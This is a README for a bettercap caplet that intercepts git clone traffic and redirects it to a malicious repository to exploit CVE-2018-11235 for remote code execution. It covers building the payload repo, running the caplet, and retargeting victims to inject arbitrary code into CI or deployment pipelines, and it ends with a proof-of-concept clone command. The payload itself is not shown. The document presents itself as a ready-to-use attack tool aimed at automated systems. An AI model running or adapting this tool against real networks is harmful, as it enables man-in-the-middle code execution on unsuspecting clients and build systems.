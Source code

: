 # Caplet for exploiting CVE-2018-11235

This caplet is intercepting http/https git clone attempts and
redirecting them to local http server that serves a malicious
repository leading to exploitation of CVE-2018-11235 on vulnerable
client.

## How to use

1. Create a malicious repository with `build_repo.sh` script. The
   script will take the contents of `payload.txt` as payload -
   customize the payload file to your needs.
2. Run the caplet with:

```
bettercap -caplet caplets/gitspoof/gitspoof.cap
```

## Alternative use cases

You can control to which repository redirect the victim, by changing
`gitspoof.repo` variable to an IP or domain (do not prefix with
http(s)). This way if the victim is not susceptible to CVE-2018-11235
you can still try to inject arbitrary code into the repo - this might
come in handy when trying to exploit some bad CI/deployment scripts.

## Limitations

Obviously the script won't be able to intercept https git clones
unless you can obtain a valid SSL cert or the victim used `-c
http.sslVerify=false` configuration option.

The script was aimed at attacking automated systems not people
therefore the repo layout doesn't try hard to look inconspicuous ;)

Attacking human with this caplet would require to also spoof some 
trusted domain and point it at bettercap server since Git will always
notify the user about http redirect.

Finally - all the CVE-2018-11235 limitations apply - to get RCE the
victim needs to have vulnerable git client **and** do a recursive
git clone (or initialize the submodules afterwards).

## POC testing 

You can test the script yourself without arp poison:

1. Setup vulnerable git on your system
2. Fire the caplet (remember to run `./build_repo.sh` first!)
3. On vulnerable system run: 

```
http_proxy=<ip address of bettercap machine><bettercap_http_port> git clone --recursive http://github.com/bettercap/bettercap /tmp/exploit
```

(**NOTE**: we are intentionally trying to clone via http on github)

The clone should trigger the default payload.
